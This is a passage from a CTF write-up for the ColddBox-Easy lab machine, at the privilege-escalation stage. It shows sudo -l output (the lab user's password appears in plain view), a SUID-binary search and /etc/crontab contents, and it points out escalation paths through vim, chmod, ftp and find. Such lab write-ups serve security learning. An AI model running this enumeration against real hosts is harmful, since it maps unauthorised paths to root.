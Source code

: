 ## privilege escalation

Ok the real thing starts here!

the author said there were many ways to Privesc so let's explore some

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```
```
c0ldd@ColddBox-Easy:/var/www/html$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```
c0ldd@ColddBox-Easy:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```